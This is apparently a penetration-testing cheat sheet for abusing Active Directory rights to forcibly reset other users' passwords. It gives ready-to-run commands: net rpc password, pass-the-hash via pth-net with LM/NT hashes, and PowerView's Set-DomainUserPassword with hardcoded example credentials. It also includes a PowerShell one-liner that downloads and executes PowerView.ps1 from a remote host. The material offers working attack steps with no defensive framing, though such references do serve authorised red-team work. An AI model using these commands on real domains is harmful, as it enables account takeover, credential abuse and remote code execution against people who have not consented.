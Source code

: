 ## If password of Source Account is Known:

````bash
net rpc password jamie -U domain.local/john -S 192.168.210.10
net rpc password <target user> -U <domain/you_user> -S <dc>
````

## Pass the Hash :
```bash
pth-net rpc password <target user> "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## PowerShell from another account if of Source Account is Known:

````powershell
$SecPassword = ConvertTo-SecureString '!QAZ2wsx' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('zsm\marcus', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred
````

## PowerShell if logged into account:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  
$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 
Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword   
```

